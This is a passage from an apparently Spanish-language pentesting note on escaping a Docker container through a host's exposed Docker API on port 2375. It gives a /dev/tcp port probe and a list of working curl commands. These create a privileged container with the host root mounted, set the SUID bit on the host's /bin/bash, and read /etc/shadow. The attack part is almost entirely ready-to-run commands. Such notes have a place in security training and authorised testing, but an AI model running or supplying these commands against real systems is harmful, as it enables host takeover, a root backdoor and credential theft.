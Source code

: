 ### Y por ultimo recargamos el demonio  *systemctl daemon-reload* y restartiamos el servicio de docker *systemctl restart docker.service*. 

### Una vez que tengamos la API corriendo ya podríamos probar esto de manera local. 

### Cuando ganamos acceso a un contenedor y probamos diversas maneras de intentar escapar del contenedor, tal vez ninguna de las anteriores den resultado. Por lo que podríamos verificar si el puerto 2375 o 2376 esta abierto en lo que sería la maquina host.

### Por ejemplo, si somos la máquina **172.17.0.2** intuimos que la máquina host es la **0.1** por lo que podríamos verificar si uno de los puertos anteriores está abierto.

```bash
echo '' > /dev/tcp/172.17.0.1/2375 

echo $? 
```

### Si no vemos respuesta alguna en la consola y al ejecutar **echo $?** vemos que el código de estado es un 0, quiere decir que el puerto esta abierto, por lo que muy probablemente este corriendo docker. En este caso, podríamos realizar el proceso de enumeración y creación de contenedores haciendo uso de páginas como [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker). 

# Payloads: 

- ### **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- ### **Listar imágenes  desde consola con CURL usando la API:** `curl http://{ip}:2375/images/json | jq`
- ### **Listar containers desde consola con CURL usando la API:** `curl http://{ip}:2375/containers/json | jq`
- ### **Crear un container** `curl  -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/create?name={container_name} -d '{"Image":"{image_name}", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt/root" ], "Privileged": true}'` (Esto nos devolverá un ID_container)
- ### **Startear el container creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/start?name={container_name}`
- ### **Crear ejecución de un comando:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/containers/{ID_container}/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/root/bin/bash"]}'` (Esto nos devolverá un ID_command y en caso de que el comando que querramos ejecutar sea algo lo cual nos tenga que mostrar output como un cat al /etc/shadow deberíamos agregar un `--ouput -`)
- ### **Ejecutar el comando creado:** `curl -X POST -H "Content-Type: application/json" http://{ip}:2375/exec/{ID_command}/start -d '{}'` 

### De esta manera, si vemos que la API de docker esta activa en la máquina host, podríamos crear un contenedor como lo haríamos normalmente desde consola y manipular el contenido de la máquina host, pudiendo leer el etc/shadow, agregando el permiso SUID a la bash, etc. 
